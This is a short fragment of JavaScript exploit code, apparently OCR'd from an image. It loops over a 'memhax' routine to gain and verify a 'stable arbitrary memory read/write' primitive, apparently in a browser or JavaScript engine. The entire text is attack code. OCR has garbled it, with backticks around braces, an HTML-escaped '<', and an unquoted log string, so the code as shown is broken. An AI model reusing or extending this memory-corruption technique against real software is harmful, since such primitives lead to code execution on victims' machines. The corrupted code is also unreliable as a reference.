 ```
inout[0] = 0x1337;

for (let i = 0; i &lt; 10; i++) `{`
    view[42] = 0;

    let out = memhax(views, WRITE, scratch_addr.asDouble(), inout, 1, stack, needle);

    if (view[42] != 0x1337) `{`
        throw "failed to obtain reliable read/write primitive";
    `}`
`}`

log([+] Got stable arbitrary memory read/write!);
if (DEBUG) `{`
    log("[*] Verifying exploit stability...");
    gc();
    log("[*] All stable!");
`}`
```
